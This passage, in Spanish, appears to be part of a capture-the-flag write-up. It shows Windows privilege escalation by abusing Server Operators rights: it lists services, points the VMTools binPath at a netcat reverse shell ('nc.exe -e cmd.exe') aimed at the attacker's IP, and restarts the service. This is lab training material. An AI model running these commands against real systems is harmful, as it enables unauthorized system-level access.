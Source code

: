 La gracia que tiene todo esto, es que al ser del grupo **Server Operators** podemos ejecutar y detener servicios, lo que podemos hacer es cambiar el **path** de un servicio en particular para ejectuar lo que nosotros queramos, en este caso será una conexión por `netcat` hacia nuestra máquina, estaremos utilizando el servicio `VMTools`:

```
C:\Users\svc-printer> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Ahora, teniendo en `nc.exe` en la máquina, cambiamos el **path** del servicio:

```
*Evil-WinRM* PS C:\Users\svc-printer> sc.exe config VMTools binPath="C:\Users\svc-printer\nc.exe -e cmd.exe 10.10.14.17 1234"
[SC] ChangeServiceConfig SUCCESS
```

Luego, detenemos el servicio de **VMTools** y lo volvemos a iniciar para que busque el servicio desde el nuevo path y ejecute el `netcat`:
```
*Evil-WinRM* PS C:\Users\svc-printer> sc.exe stop VMTools
```
```
*Evil-WinRM* PS C:\Users\svc-printer> sc.exe start VMTools
```

En nuestra máquina recibimos una conexión:
